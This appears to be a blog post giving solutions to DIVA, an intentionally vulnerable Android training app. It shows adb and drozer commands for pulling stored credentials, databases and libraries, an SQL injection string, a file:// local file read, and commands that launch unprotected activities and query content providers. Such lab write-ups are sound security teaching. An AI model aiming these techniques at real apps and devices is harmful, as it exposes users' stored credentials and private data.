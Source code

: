 ```yaml
---
layout: post
title: 'Diva Android Solutions '
description: DIVA Android - Damn Insecure and vulnerable App for Android
date: '2019-07-30 12:03:36 +0530'
categories: Solutions
published: true
---
```


## Diva Android Solutions





![png]({{site.baseurl}}/pics/main.png)


## Insecure Logging

![png]({{site.baseurl}}/pics/insecure.png)

Develophers use logs to debug their applications. Leaking information in logs is general situation and can be found any system. In android, we can read logs from adb logcat command. Then when we look logs we see our application leakes our credit card number in logs.
 
 
```bash
adb logcat >  out.txt
cat out.txt | grep diva
```

![png]({{site.baseurl}}/pics/insecure-2.png)

![png]({{site.baseurl}}/pics/insecure1code.png)
When we look at the code the problematic part is that
  ```java 
Log.e("diva-log", "Error while processing transaction with credit card: " + localEditText.getText().toString());
```
which stores credit card number.


## Hardcoding Issues 1

![png]({{site.baseurl}}/pics/hardcodemain.png)

Sometimes develophers uses critical information as hard-coded. In these example hardcoded part in apk files.
To get apk  from our phone we use adb pull.
Then we use bytecodeviewer to open it. When we goto  related class HardcodeActivity we see blow result. Vendor secret leaked. 

![png]({{site.baseurl}}/pics/hardcode.png)

adb pull apk
bytecodeviever
vendorsecretkey


## Insecure Data Storage

![png]({{site.baseurl}}/pics/indata1main.png)

These time credentials stored in shared preferences which gives oppurtunity to store small information in xml files. It is stored in shared_prefs directory.
  ```bash 
adb shell
cd data/data/jakhar.aseem.diva/
ls
cd shared_prefs/
cat jakhar.aseem.diva_preferences.xml
```

![png]({{site.baseurl}}/pics/indata1code.png)

/data/data/jakhar.aseem.diva/shared_prefs

jakhar.aseem.diva_preferences.xml
```xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
	<map>
	    <string name="user">adadd</string>
	    <string name="password">sdsdsdsd</string>
	</map>
```



## Insecure Data Storage 2
![png]({{site.baseurl}}/pics/indata2main.png)

Common method to store data is using databases. In these example data  stored in sqlite databses plaintext.
To check database we download  by adb pull and open by sqlitebrowser.

```bash
adb pull data/data/jakhar.aseem.diva/databases/ids2

sqlitebrowser ids2
```
![png]({{site.baseurl}}/pics/indata2sli.png)

## Insecure Data Storage 3

![png]({{site.baseurl}}/pics/indata3main.png)

In these example, develpher tore data in tmp file which starts with uinfo.


```bash
adb pull /data/data/jakhar.aseem.diva/uinfo-493535252tmp
cat uinfo-493535252tmp
```
![png]({{site.baseurl}}/pics/ 	indata3code.png)

## Insecure Data Storage 4

These time data stored in different directory. To Read file we go location of $EXTERNAL_STORAGE variable.
```bash
echo $EXTERNAL_STORAGE
.uinfo.txt
```


## Input Validation Issues 1
	
When working with databases valitating input so critical. I fit not done properly or not used properly sql injecttion vulnerability occurs. Below input returns  alll results n table.
```bash
	' or 1=1 --
```


## Input Validation Issues 2

Also file  inclusion vulnerabilities can be found  in mobile application. In example we can read local files by fiving them.
```bash
file:///data/data/jakhar.aseem.diva/lib/libdivajni.so
```
## Access Control Issues
Activities opened by intents and sometimes these activities are not secured. So they can can be called directly.

To do these we use drozer .To download and setup it you can use following link
https://github.com/mwrlabs/drozer


```bash	
activity intent 
run app.activity.info  -a jakhar.aseem.diva
jakhar.aseem.diva.APICredsActivity
run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
```

## Access Control Issues 2

VEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2




## Access Control Issues 3
Like activities, broviders can leake information. 
```bash	
run app.provider.info -a jakhar.aseem.diva
run scanner.provider.finduris -a jakhar.aseem.diva
run scanner.provider.sqltables -a content://jakhar.aseem.diva.provider.notesprovider/notes/
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/
```


## Hardcoding Issues 2

These time critical insormation is in libraries.

```bash	
adb pull lib/lib.so
strings
olsdfgad;lh
```


## Input Validation Issues 3

Example includes overflow vulnerability.
To crach app we try each time more character.
When reached maximum app will crash.


```bash	pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
```




